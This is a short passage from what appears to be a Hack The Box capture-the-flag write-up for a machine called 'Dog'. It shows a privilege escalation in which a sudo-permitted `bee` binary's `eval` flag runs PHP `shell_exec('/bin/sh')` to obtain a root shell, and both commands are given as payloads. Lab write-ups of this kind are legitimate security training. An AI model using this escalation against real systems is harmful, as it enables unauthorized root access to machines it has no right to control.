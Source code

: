 In my case the root directory path was `/var/www/html`.

<b>Initial Payload</b> - 

```bash
sudo /usr/local/bin/bee --root=/var/www/html
```

While exploring advanced options in `bee`, I discovered the `eval` flag, which allows arbitrary PHP execution.

![Bee's Advance](/assets/images/writeups/Dog-HTB/20.png)

I used the `eval` flag to execute a PHP command and gain a root shell.

<b>Final Payload</b> - 

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('/bin/sh');"
```

![Root user](/assets/images/writeups/Dog-HTB/21.png)
